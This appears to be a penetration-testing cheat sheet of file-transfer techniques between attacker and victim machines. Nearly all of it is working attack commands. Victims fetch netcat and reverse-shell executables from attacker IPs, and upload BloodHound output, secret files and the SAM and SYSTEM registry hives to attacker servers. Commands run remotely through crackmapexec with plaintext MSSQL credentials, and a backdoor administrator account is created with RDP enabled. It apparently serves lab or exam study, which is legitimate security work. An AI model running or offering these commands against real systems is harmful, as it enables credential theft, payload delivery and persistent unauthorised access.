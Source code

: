 # Transfer Files

<details>

<summary>Linux</summary>

```bash
python -m SimpleHTTPServer 53
```

```bash
python3 -m http.server 8023
```

```bash
wget -O <filename> <website_name>
```

```bash
curl -o <filename> <website_name>
```

```bash
axel -a -n 20 -o <filename> <website_name>
```

</details>

<details>

<summary>Windows</summary>

```shell
curl.exe http://10.11.67.208:8000/output.dll --output output.dll
```

```bash
powershell.exe iwr -uri 10.10.105.147/nc.exe -o c:\temp\nc.exe
```

```sh
powershell -c cd C:\windows\temp; wget http://10.10.14.68/nc64.exe -outfile nc64.exe
```

```powershell
(new-object net.webclient).downloadfile('http://10.10.14.2/nc.exe', 'c:\temp\nc.exe')
```

```
bitsadmin /Transfer myJob http://192.168.61.128/README.md c:\Users\testing\README.md
```

```bash
certutil.exe -urlcache -f http://10.10.14.68/nc.exe C:\Windows\Temp\nc.exe
```

</details>

<details>

<summary>Upload files to HTTP Server</summary>

[https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py](https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py)

Attacker's upload server:

```bash
python3 SimpleHTTPServerWithUpload.py 80
```

#### GUI to upload file:

* Go to `<Attacker's IP>`

![](<../.gitbook/assets/image (121).png>)

#### Windows victim uploading file using PS:

```powershell
(New-Object System.Net.WebClient).UploadFile('http://192.168.45.5/', 'c:\temp\20230425015352_BloodHound.zip')
```

#### Windows victim uploading file using CMD:

* double backslashes are impt!!
* Windows 10 and Server 2019 has curl.exe built-in at `c:\windows\system32\curl.exe`

```bash
powershell -c curl.exe -F 'file=@C:\\temp\\supersecret.txt' http://172.16.1.30
```

#### Linux victim uploading file:

```bash
curl -F 'file=@<FILENAME>' http://<ATTACKER-IP>/
```

```
requests.post(<path-on-server-side>, files={'file': open(output_file, 'rb')})
```

</details>

<details>

<summary>SMB</summary>

On attacker:

```bash
sudo python3 /usr/local/bin/smbserver.py share .
```

* may need to use `-smb2support` switch

On victim:

```shell
copy \\10.10.14.68\share\reverse.exe .
```

OR...

```bash
net use \\10.10.14.68\share /u:d d
cd \\10.10.14.15\share
.\winpeas.bat
```

</details>

<details>

<summary>FTP</summary>

```bash
python2.7 -m pyftpdlib -p 21 --write
```

### Non-Interactive File Transfer

* Have to craft the txt file on the victim as Linux and Win uses diff encoding for txt files.

#### CMD:

```bash
echo open 172.16.1.30 > ftp.txt
echo USER anonymous >> ftp.txt
echo PASS anonymous >> ftp.txt
echo binary >> ftp.txt
echo PUT nc.exe >> ftp.txt
echo bye >> ftp.txt

ftp.exe -v -n -s:ftp.txt
```

#### PS:

* Doesn't like the `>` or `<` characters

```bash
echo "open 172.16.1.30" | Out-File .\ftp.txt -encoding ascii
echo "USER anonymous" | Out-File .\ftp.txt -encoding ascii -append
echo "PASS anonymous" | Out-File .\ftp.txt -encoding ascii -append
echo "binary" | Out-File .\ftp.txt -encoding ascii -append
echo "PUT nc.exe" | Out-File .\ftp.txt -encoding ascii -append
echo "bye" | Out-File .\ftp.txt -encoding ascii -append

ftp.exe -v -n -s:ftp.txt
```

</details>

<details>

<summary>SCP</summary>

From attacker to victim, run command on attacker:

```bash
scp -P 2222 printname.sh student@192.168.161.52:/tmp
```

From victim to attacker, run command on attacker:

```bash
scp -P 2222 -o "UserKnownHostsFile=/dev/null" student@192.168.145.52:/home/student/navigating-code.exe /tmp/navigating-code.exe
```

</details>

<details>

<summary>Netcat</summary>

On Victim:

```bash
nc -nlvp 4444 > wget.exe
```

On Attacker:

```bash
nc -nv 10.11.0.22 4444 < /home/kali/Downloads/wget.exe
```

</details>

<details>

<summary>Python3 uploadserver library</summary>

On Attacker:

```python
python3 -m uploadserver 80
```

Can install using `python3 -m pip install --user uploadserver`

On Victim:

```bash
curl -X POST http://192.168.45.201:80/upload -F 'files=@/usr/bin/sg'
```

</details>

<details>

<summary>Socat</summary>

Transferring files from attacker to victim

On Attacker:

```bash
socat TCP4-LISTEN:80,fork file:rev.php       
```

On Victim:

```bash
socat TCP4:192.168.45.213:80 file:rev.php,create
```

</details>

<details>

<summary>Transfer files to unreachable hosts</summary>

* Able to reach MS01 but not MS02 despite chisel in place
* MS02 able to reach MS01 via internal IP

#### Use existing HTTP server on MS01 to transfer files

```bash
ftp <ms01's external IP>
# ftp> cd wwwroot
# ftp> bin
# ftp> put reverse.exe
# local: reverse.exe remote: reverse.exe
# 229 Entering Extended Passive Mode (|||50472|)
# 125 Data connection already open; Transfer starting.
# 100% |**********************************************************************|  7168       23.57 MiB/s    00:00 ETA
# 226 Transfer complete.
# 7168 bytes sent in 00:00 (38.06 KiB/s)

# Use Curl to download the reverse shell from MS01 web server.
proxychains -q crackmapexec mssql 10.10.105.148 -u sql_svc -p Dolphin1 -x "curl http://<ms01 Internal IP>:8000/reverse.exe --output c:\temp\reverse.exe"

```

### OR&#x20;

#### Setup Rejetto HFS server (HTTP file server)

```bash
wget https://github.com/rejetto/hfs/releases/download/v0.45.0/hfs-windows.zip
```

#### Create new local admin named bill & Enable RDP on MS01

```bash
c:\temp> net user bill P@ssw0rd /add
c:\temp> net localgroup administrators bill /add
c:\temp> reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

#### Run the HFS server

* Use GUI to unzip --> Double-click hfs executable to serve HTTP server
* Go to [http://localhost/\~/admin/#/](http://localhost/~/admin/#/) --> hamburger icon --> shared files --> add files in virtual file system --> save

#### Download files from MS01 HFS server to MS02

```bash
proxychains -q crackmapexec mssql 10.10.105.148 -u sql_svc -p Dolphin1 -x "powershell.exe iwr -uri 10.10.105.147/nc.exe -o c:\temp\nc.exe"
```

#### Upload files from MS02 to MS01

* Inside HFS admin console ([http://localhost/\~/admin/#/fs](http://localhost/~/admin/#/fs))
  * Select "Shared Files" --> Select "Home" --> "Source on disk" put as a local directory
  * Select "Who can upload" as anyone

```bash
proxychains -q crackmapexec mssql 10.10.105.148 -u sql_svc -p Dolphin1 -X "curl.exe -F 'file=@c:\windows.old\windows\system32\SAM' http://10.10.105.147"
proxychains -q crackmapexec mssql 10.10.105.148 -u sql_svc -p Dolphin1 -X "curl.exe -F 'file=@c:\windows.old\windows\system32\SYSTEM' http://10.10.105.147"
```

* Note it's capital X, meaning that it's a Powershell command

</details>
